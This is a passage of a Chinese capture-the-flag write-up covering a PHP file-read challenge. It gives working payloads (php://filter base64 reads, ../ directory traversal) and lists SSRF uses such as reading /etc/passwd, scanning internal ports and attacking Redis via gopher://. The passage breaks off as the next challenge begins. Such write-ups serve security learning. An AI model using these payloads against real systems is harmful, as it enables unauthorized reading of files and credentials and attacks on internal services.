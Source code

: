 接着使用,得到flag

```url
?file=/flag
```

注:

```study
file_get_contents($file)//读取文件内容的内置函数，功能简洁且常用，主要作用是将整个文件（或网络资源）的内容读取为一个字符串
```


| 目标            | 绕过思路         | 实际 payload                                                           |
| --------------- | ---------------- | ---------------------------------------------------------------------- |
| 直接读`/flag`   | 不用 file 关键字 | `?file=/flag`                                                          |
| 伪协议读`/flag` | 避开 file 字母   | `?file=php://filter/read=convert.base64-encode/resource=/flag`         |
| 目录穿越读 flag | 没过滤 ../       | `?file=../../../../flag`                                               |
| 读当前源码      | 伪协议 + base64  | `?file=php://filter/read=convert.base64-encode/resource=ha1x1ux1u.php` |

ssrf可以做

1. 读本地文件 `file:///etc/passwd`
2. 扫内网端口 `http://192.168.1.x:22`
3. 打内网服务 `gopher://127.0.0.1:6379/...`

# 32.[BJDCTF 2020]easy\_md5

查看题目只有一个输入框

![1758875210831](images/NSS/1758875210831.png)
